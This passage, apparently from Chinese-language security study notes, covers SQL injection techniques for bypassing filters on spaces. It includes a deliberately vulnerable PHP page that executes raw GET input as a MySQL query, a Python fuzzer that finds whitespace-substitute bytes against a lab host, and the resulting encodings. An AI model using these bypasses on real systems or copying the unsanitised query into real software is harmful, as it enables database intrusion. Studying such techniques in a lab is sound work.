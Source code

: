 - 用`/*xxx*/`或者`+`(加号有使用限制)作为空格的替换

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202131536800.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202131537199.png)

- 特殊的ascii字符

```php
<?php
error_reporting(0);
$db = new mysqli("192.168.241.128", "root", "root", "mysql", "50547");
if (mysqli_connect_errno()) { #检查连接
    printf("Connect failed: %s\n", mysqli_connect_error());
    exit();
}
$str =$_GET['str'];
var_dump($str);
$result = $db->query($str);
if ($result->num_rows !== 0) {
    echo $result->fetch_row()[0];
}
```

```python
import time

import requests

url = 'http://192.168.2.2:8000/sql_injection_test/space.php'
url_char = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']

for i in url_char:
    for j in url_char:
        r = requests.get(url='http://192.168.2.2:8000/sql_injection_test/space.php?str=select%' + i + j + 'user();')
        if 'root@192.168.241.1' in r.text:
            print('%' + i + j)
    time.sleep(5)
```

```
%09
%0a
%0b
%0c
%0d
%20
%2b
%a0
```

- 用`()`和`{}`去闭合从而绕过空格的限制

>`{}`常用于语句变形
